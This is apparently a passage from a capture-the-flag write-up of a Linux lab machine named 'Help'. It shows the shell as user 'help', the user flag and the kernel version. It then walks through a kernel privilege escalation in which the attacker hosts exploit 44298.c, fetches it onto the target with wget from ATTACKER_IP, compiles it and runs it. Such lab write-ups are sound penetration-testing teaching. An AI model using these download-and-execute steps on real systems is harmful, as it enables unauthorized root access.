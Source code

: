 <img width="683" height="104" alt="image" src="https://github.com/user-attachments/assets/994be117-e18e-4656-9d06-86afef92c904" />

<img width="960" height="726" alt="image" src="https://github.com/user-attachments/assets/b87fbbd8-a859-446c-a2bf-d024fad28507" />

### Initial Access

Successfully obtained a shell as user `help`:
```bash
whoami
# help

cat /home/help/user.txt
# c4a45fefa1e4dcd8ddcca8777ab9ffde
```

<img width="323" height="82" alt="image" src="https://github.com/user-attachments/assets/7cd44cf4-1639-4873-a315-dba3ff0bc967" />

## Privilege Escalation

### System Information Gathering

```bash
uname -a
# Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
<img width="873" height="83" alt="image" src="https://github.com/user-attachments/assets/b80feabf-0628-4948-876a-58c230a6c7f5" />


### Kernel Exploitation

**Vulnerability:** Linux Kernel 4.4.0-116 Generic Privilege Escalation

<img width="563" height="198" alt="image" src="https://github.com/user-attachments/assets/13779a48-56f9-48eb-9159-bfe6036e458f" />


1. **Download and compile the exploit:**

```bash
# On attacker machine
python3 -m http.server

# On target machine
wget http://ATTACKER_IP:8000/44298.c -O exploit.c
gcc -o exploit exploit.c
```

<img width="643" height="219" alt="image" src="https://github.com/user-attachments/assets/63b7c225-9238-473d-8054-fafcb4775f67" />


2. **Execute the exploit:**
```bash
./exploit
```

